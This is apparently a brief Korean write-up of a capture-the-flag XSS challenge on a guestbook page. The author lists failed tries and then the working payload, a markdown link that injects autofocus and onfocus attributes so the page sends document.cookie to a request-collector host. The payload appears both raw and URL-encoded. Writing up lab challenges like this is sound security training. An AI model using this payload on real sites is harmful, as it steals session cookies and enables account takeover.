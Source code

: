 ## 풀이

정말 여러가지 삽질을 했다..
ontransitionend 같은 속성도 써보고, style injection 등 여러가지 시도했는데
ontransitionend는 절대 자동 실행이 아니었고,
style injection은 실행은 잘 되는데 document.cookie를 가져올 수 없었다.

정말 어이없는 풀이를 설명듣고 풀었는데, autofocus + onfocus의 조합으로 푸는 것이다..
a 태그 관련해서 검색했을 때 autofocus가 안나와서 넘어갔었는데,
autofocus는 모든 element에서 사용가능한 global attribute라서 사용할 수 있는 것이다.

페이로드는 다음과 같다.

```markdown
[something](#' autofocus onfocus='location.href="https://qftaypc.request.dreamhack.games/?cookie=" + document.cookie)

/GuestBook.php?content=%5Bsomething%5D%28%23%27+autofocus+onfocus%3D%27location.href%3D%22https%3A%2F%2Fqftaypc.request.dreamhack.games%2F%3Fcookie%3D%22+%2B+document.cookie%29
```